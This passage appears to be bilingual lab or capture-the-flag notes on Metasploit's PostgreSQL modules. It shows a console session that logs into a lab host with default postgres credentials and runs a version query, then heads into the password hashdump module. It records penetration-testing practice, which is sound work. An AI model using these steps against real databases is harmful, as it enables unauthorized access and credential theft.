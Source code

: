 [PostgreSQL Server Generic Query](https://www.rapid7.com/db/modules/auxiliary/admin/postgres/postgres_sql/)

PostgreSQL Server Generic Query

This module will allow for simple SQL statements to be executed against a PostgreSQL instance given the appropriate credentials.

PostgreSQL 服务器通用查询

该模块允许使用适当的凭据对 PostgreSQL 实例执行简单的 SQL 语句。

```
msf6 auxiliary(scanner/postgres/postgres_login) > use auxiliary/admin/postgres/postgres_sql
msf6 auxiliary(admin/postgres/postgres_sql) > show options

Module options (auxiliary/admin/postgres/postgres_sql):

   Name           Current Setting   Required  Description
   ----           ---------------   --------  -----------
   DATABASE       template1         yes       The database to authenticate against
   PASSWORD       postgres          no        The password for the specified username. Leave blank for a random password.
   RETURN_ROWSET  true              no        Set to true to see query result sets
   RHOSTS         10.10.205.125     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          5432              yes       The target port
   SQL            select version()  no        The SQL query to execute
   USERNAME       postgres          yes       The username to authenticate as
   VERBOSE        false             no        Enable verbose output


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/postgres/postgres_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/postgres/postgres_sql) > run
[*] Running module against 10.10.205.125

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```

[Postgres Password Hashdump](https://www.rapid7.com/db/modules/auxiliary/scanner/postgres/postgres_hashdump/)

Postgres Password Hashdump
